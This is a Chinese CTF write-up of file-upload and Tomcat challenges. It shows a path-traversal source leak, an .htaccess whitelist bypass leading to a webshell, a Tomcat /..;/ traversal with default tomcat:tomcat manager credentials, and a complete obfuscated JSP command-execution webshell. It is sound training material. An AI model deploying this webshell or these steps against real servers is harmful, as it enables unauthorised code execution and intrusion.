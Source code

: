 # 文件上传

文件上传,上传后显示的路径是view，F12发现文件的储存位置，

![Untitled](%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%20329cca66851b4a0e8c72df7d9eecf4f2/Untitled.png)

上传别的文件时显示只可以上传图片

目录穿越，两次url绕过

![Untitled](%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%20329cca66851b4a0e8c72df7d9eecf4f2/Untitled%201.png)

获取源码，这里有个小知识点/proc/self/cwd会指向现在的工作目录

/proc/self/cwd/app.py拿到源码

```python
from flask import Flask, render_template, request, flash, redirect, send_file
from urllib.parse import urlparse
import re
import os
from hashlib import md5
import asyncio
import requests

app = Flask(__name__)
app.config['UPLOAD_FOLDER'] = os.path.join(os.curdir, "uploads")
# app.config['UPLOAD_FOLDER'] = "/uploads"
app.config['MAX_CONTENT_LENGTH'] = 1*1024*1024
app.secret_key = b'_5#y2L"F4Q8z\n\xec]/'
ALLOWED_EXTENSIONS = {'png', 'jpg', 's'}

if not os.path.exists(app.config['UPLOAD_FOLDER']):
    os.mkdir(app.config['UPLOAD_FOLDER'])

def secure_filename(filename):
    return re.sub(r"(\.\.|/)", "", filename)

def allowed_file(filename):
    return '.' in filename and \
           filename.rsplit('.', 1)[1].lower() in ALLOWED_EXTENSIONS

@app.route("/")
def index():
    return render_template("home.html")

@app.route("/upload", methods=["POST"])
def upload():
    caption = request.form["caption"]
    file = request.files["image"]

    if file.filename == '':
        flash('No selected file')
        return redirect("/")
    elif not allowed_file(file.filename):
        flash('Please upload images only.')
        return redirect("/")
    else:
        if not request.headers.get("X-Real-IP"):
           ip = request.remote_addr
        else:
           ip = request.headers.get("X-Real-IP")
        dirname = md5(ip.encode()).hexdigest()
        filename = secure_filename(file.filename)
        upload_directory = os.path.join(app.config['UPLOAD_FOLDER'], dirname)
        if not os.path.exists(upload_directory):
            os.mkdir(upload_directory)
        upload_path = os.path.join(app.config['UPLOAD_FOLDER'], dirname, filename)
        file.save(upload_path)
        return render_template("uploaded.html", path = os.path.join(dirname, filename))

@app.route("/view/<path:path>")
def view(path):
    return render_template("view.html", path = path)

@app.route("/uploads/<path:path>")
def uploads(path):
    # TODO(noob):
    # zevtnax told me use apache for static files. I've
    # already configured it to serve /uploads_apache but it
    # still needs testing. I'm a security noob anyways.
    return send_file(os.path.join(app.config['UPLOAD_FOLDER'], path))

if __name__ == "__main__":
    app.run(port=5000)
```

文件后缀名白名单里的s将.htaccess改名为.htacces..s

上传图片马，然后将uplouds改成uploads_apache来getshell

![Untitled](%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%20329cca66851b4a0e8c72df7d9eecf4f2/Untitled%202.png)

发现本地没有flag，只有往内网去想，拿到ip

![Untitled](%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%20329cca66851b4a0e8c72df7d9eecf4f2/Untitled%203.png)

### ****[WUSTCTF2020]Train Yourself To Be Godly****

### Tomcat目录穿越

当服务端采用Nginx做反向代理，Tomcat做为真正的后端时/..;/目录穿越

![Untitled](%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%20329cca66851b4a0e8c72df7d9eecf4f2/Untitled%204.png)

到/manager/html访问后台密码tomcat:tomcat

![Untitled](%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%20329cca66851b4a0e8c72df7d9eecf4f2/Untitled%205.png)

shell

![Untitled](%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%20329cca66851b4a0e8c72df7d9eecf4f2/Untitled%206.png)

```jsx
//来源https://github.com/LandGrey/webshell-detect-bypass/tree/master/webshell/jsp
//cmd.jsp
<%@ page pageEncoding="utf-8"%>
<%@ page import="java.util.Scanner" %>
<HTML>
<title>Just For Fun</title>
<BODY>
<H3>Build By LandGrey</H3>
<FORM METHOD="POST" NAME="form" ACTION="#">
    <INPUT TYPE="text" NAME="q">
    <INPUT TYPE="submit" VALUE="Fly">
</FORM>

<%
    String op="Got Nothing";
    String query = request.getParameter("q");
    String fileSeparator = String.valueOf(java.io.File.separatorChar);
    Boolean isWin;
    if(fileSeparator.equals("\\")){
        isWin = true;
    }else{
        isWin = false;
    }

    if (query != null) {
        ProcessBuilder pb;
        if(isWin) {
            pb = new ProcessBuilder(new String(new byte[]{99, 109, 100}), new String(new byte[]{47, 67}), query);
        }else{
            pb = new ProcessBuilder(new String(new byte[]{47, 98, 105, 110, 47, 98, 97, 115, 104}), new String(new byte[]{45, 99}), query);
        }
        Process process = pb.start();
        Scanner sc = new Scanner(process.getInputStream()).useDelimiter("\\A");
        op = sc.hasNext() ? sc.next() : op;
        sc.close();
    }
%>

<PRE>
    <%= op %>>
</PRE>
</BODY>
</HTML>
```

浏览器404，burp抓包去掉路径里的example，加上Authonzation: Basic tomcat:tomcat的base64值

dG9tY2F0OnRvbWNhdA==

还需要一开始访问时的cookie

![Untitled](%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%20329cca66851b4a0e8c72df7d9eecf4f2/Untitled%207.png)